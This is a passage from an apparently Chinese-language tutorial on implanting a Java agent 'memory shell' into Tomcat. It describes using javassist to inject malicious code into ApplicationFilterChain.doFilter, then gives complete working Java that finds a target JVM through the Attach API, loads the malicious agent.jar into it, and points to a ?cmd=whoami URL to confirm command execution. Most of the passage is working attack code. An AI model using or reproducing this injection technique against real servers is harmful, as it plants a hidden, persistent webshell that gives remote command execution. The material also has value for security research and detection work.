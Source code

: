逻辑就是：如果当前拦截的类为 `org.apache.catalina.core.ApplicationFilterChain` ，则使用javassist修改这个类的 `doFilter` 方法，在方法前添加恶意代码，从而植入webshell。

然后就可以使用IDEA将这个项目打包成jar了：

![][p4]

### 准备attack agent.jar到目标JVM
前面我们已经准备好了恶意的agent.jar代理包，那么现在就需要将这个agent.jar加载到目标JVM中实现恶意的代理。前面说到，使用官方提供的 `Attack API` 即可实现。一个参考案例如下：

    /**
     * 运行时加载Agent,目标启动JVM后动态注入agent
     */
    public static void main(String[] args) {
        // agent.jar的物理路径
        String agentPath = "D:/P1n93r/workspace/menshell/out/artifacts/menshell_jar/menshell.jar";
        // 目标JVM的名称
        String targetJvmDisplayname = "com.pinger.TestMain";
        try {
            java.io.File toolsJar = new java.io.File(System.getProperty("java.home").replaceFirst("jre", "lib") + java.io.File.separator + "tools.jar");
            java.net.URLClassLoader classLoader = (java.net.URLClassLoader) java.lang.ClassLoader.getSystemClassLoader();
            java.lang.reflect.Method add = java.net.URLClassLoader.class.getDeclaredMethod("addURL", new java.lang.Class[]{java.net.URL.class});
            add.setAccessible(true);
            add.invoke(classLoader, new Object[]{toolsJar.toURI().toURL()});
            Class<?> myVirtualMachine = classLoader.loadClass("com.sun.tools.attach.VirtualMachine");
            Class<?> myVirtualMachineDescriptor = classLoader.loadClass("com.sun.tools.attach.VirtualMachineDescriptor");
            java.lang.reflect.Method list = myVirtualMachine.getDeclaredMethod("list", new java.lang.Class[]{});
            java.util.List<Object> invoke = (java.util.List<Object>) list.invoke(null, new Object[]{});
            // 遍历所有JVM
            for (int i = 0; i < invoke.size(); i++) {
                Object o = invoke.get(i);
                java.lang.reflect.Method displayName = o.getClass().getSuperclass().getDeclaredMethod("displayName", new Class[]{});
                Object name = displayName.invoke(o, new Object[]{});
                System.out.println(String.format("find jvm process name:[[[" +"%s"+"]]]", name.toString()));
                // 找到目标WEB服务器的JVM虚拟机，Tomcat是org.apache.catalina.startup.Bootstrap
                // 寻找准备attach的目标JVM
                if (name.toString().contains(targetJvmDisplayname)) {
                    java.lang.reflect.Method attach = myVirtualMachine.getDeclaredMethod("attach", new Class[]{myVirtualMachineDescriptor});
                    Object machine = attach.invoke(myVirtualMachine, new Object[]{o});
                    java.lang.reflect.Method loadAgent = machine.getClass().getSuperclass().getSuperclass().getDeclaredMethod("loadAgent", new Class[]{String.class});
                    loadAgent.invoke(machine, new Object[]{agentPath});
                    java.lang.reflect.Method detach = myVirtualMachine.getDeclaredMethod("detach", new Class[]{});
                    detach.invoke(machine, new Object[]{});
                    System.out.println("inject tomcat done, break.");
                    System.out.println("check url http://localhost:8080/?cmd=whoami");
                    break;
                }
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

